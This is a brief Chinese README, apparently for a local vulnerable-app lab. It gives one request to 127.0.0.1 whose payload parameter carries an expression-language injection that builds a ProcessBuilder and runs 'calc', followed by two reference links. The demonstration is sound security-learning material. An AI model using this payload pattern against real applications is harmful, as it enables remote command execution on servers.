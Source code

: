 IDEA导入
执行http://127.0.0.1:8080/fail2?payload=${new%20java.lang.ProcessBuilder(new%20java.lang.String(new%20byte[]{99,97,108,99})).start()}
参考
https://www.cnblogs.com/litlife/archive/2018/12/27/10183137.html
https://mp.weixin.qq.com/s?__biz=MzAwMzI0MTMwOQ==&mid=2650173748&idx=1&sn=a0fa9e48ed05d80b7c693082f6b687ce&scene=1&srcid=0911LaFVNrVdYZr7nIyS8Nn3#rd
